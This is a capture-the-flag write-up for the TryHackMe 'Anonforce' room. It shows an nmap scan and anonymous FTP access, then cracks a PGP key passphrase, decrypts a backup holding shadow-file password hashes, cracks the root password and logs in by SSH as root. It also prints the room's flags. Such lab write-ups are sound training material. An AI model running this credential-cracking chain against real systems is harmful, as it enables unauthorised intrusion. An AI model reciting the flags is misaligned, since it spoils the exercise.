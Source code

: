 ## Anonforce - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtanonforce)

**IP: 10.10.172.195**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, John The Ripper

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Start with Nmap scan
  ```
  nmap -sC -sV -T5 -p- 10.10.172.195 
  
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 1
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
  | drwxr-xr-x   17 0        0            3700 Apr 30 12:01 dev
  | drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
  | drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
  | drwx------    2 0        0           16384 Aug 11  2019 lost+found
  | drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
  | drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
  | drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
  | dr-xr-xr-x   92 0        0               0 Apr 30 12:01 proc
  | drwx------    3 0        0            4096 Aug 11  2019 root
  | drwxr-xr-x   18 0        0             540 Apr 30 12:01 run
  | drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
  | dr-xr-xr-x   13 0        0               0 Apr 30 12:01 sys
  |_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
  ```
  
- `notread [NSE: writeable]` looks suspicious, also log in as Anonymous with FTP.

---

## 🧍 User Privilege Escalation

- You can get user flag after logging in with FTP
  ```
  ftp 10.10.172.195
  Anonymous
  no password
  ```
  
- After getting in, look a bit and you'll find the flag `606083fd33beb1284fc51f411a706af8`, I also downloaded it to my Kali.
  ```
  cd home
  cd melodias
  get user.txt

  cat user.txt
  606083fd33beb1284fc51f411a706af8
  ```
  
- Now moving to escalation for root flag.

---

## 👑 Root Privilege Escalation

- When you check `/notread` you'll find 2 files inside: `private.asc` and `backup.pgp`, download them both. `private.asc` is PGP Private Key and `backup.pgp` is encypted file you have to decrypt. Lets work on that!
  
- Will convert `private.asc` to hash and crack it with John and then I will use cracked passphrase to decrypt `backup.pgp`
  ```
  gpg2john private.asc > keyhash.txt
  
  john --wordlist=/rockyou.txt keyhash.txt
  xbox360          (anonforce) 
  
  gpg --import private.asc     
  gpg: /.gnupg/trustdb.gpg: trustdb created
  gpg: key ABCDE1234FGHI567: public key "anonforce <melodias@anonforce.nsa>" imported
  gpg: key ABCDE1234FGHI567: secret key imported
  gpg: key ABCDE1234FGHI567: "anonforce <melodias@anonforce.nsa>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
  ```
  
- Awesome, passphrase is `xbox360` use it for both import and decryption. Now let's decrypt `backup.pgp` and check the content.
  ```
  gpg --output decrypted.txt --decrypt backup.pgp 
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 512-bit ELG key, ID ABCDE1234FGHI567, created 2019-08-12
        "anonforce <melodias@anonforce.nsa>"

  cat decrypted.txt
  root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
  daemon:*:17953:0:99999:7:::
  bin:*:17953:0:99999:7:::
  sys:*:17953:0:99999:7:::
  sync:*:17953:0:99999:7:::
  games:*:17953:0:99999:7:::
  man:*:17953:0:99999:7:::
  lp:*:17953:0:99999:7:::
  mail:*:17953:0:99999:7:::
  news:*:17953:0:99999:7:::
  uucp:*:17953:0:99999:7:::
  proxy:*:17953:0:99999:7:::
  www-data:*:17953:0:99999:7:::
  backup:*:17953:0:99999:7:::
  list:*:17953:0:99999:7:::
  irc:*:17953:0:99999:7:::
  gnats:*:17953:0:99999:7:::
  nobody:*:17953:0:99999:7:::
  systemd-timesync:*:17953:0:99999:7:::
  systemd-network:*:17953:0:99999:7:::
  systemd-resolve:*:17953:0:99999:7:::
  systemd-bus-proxy:*:17953:0:99999:7:::
  syslog:*:17953:0:99999:7:::
  _apt:*:17953:0:99999:7:::
  messagebus:*:18120:0:99999:7:::
  uuidd:*:18120:0:99999:7:::
  melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
  sshd:*:18120:0:99999:7:::
  ftp:*:18120:0:99999:7:::
  ```

- Before doing SSH first crack the root hash and that's it, you can log in with SSH as root.
  ```
  echo "$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0" > root.hash
  john --wordlist=/rockyou.txt root.hash
  hikari

  hashcat -m 1800 root.hash /rockyou.txt 
  $6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
  ```

- Let's get the flag, log in with SSH and `cat` the flag.
  ```
  ssh root@10.10.172.195
  hikari

  whoami
  root
  cat /root/root.txt
  f706456440c7af4187810c31c6cebdce
  ```
  
---

## 🏁 Flags

- **User Flag**: `606083fd33beb1284fc51f411a706af8`
- **Root Flag**: `f706456440c7af4187810c31c6cebdce`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Decrypting .pgp file?`

- What did I learn?
  `Just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
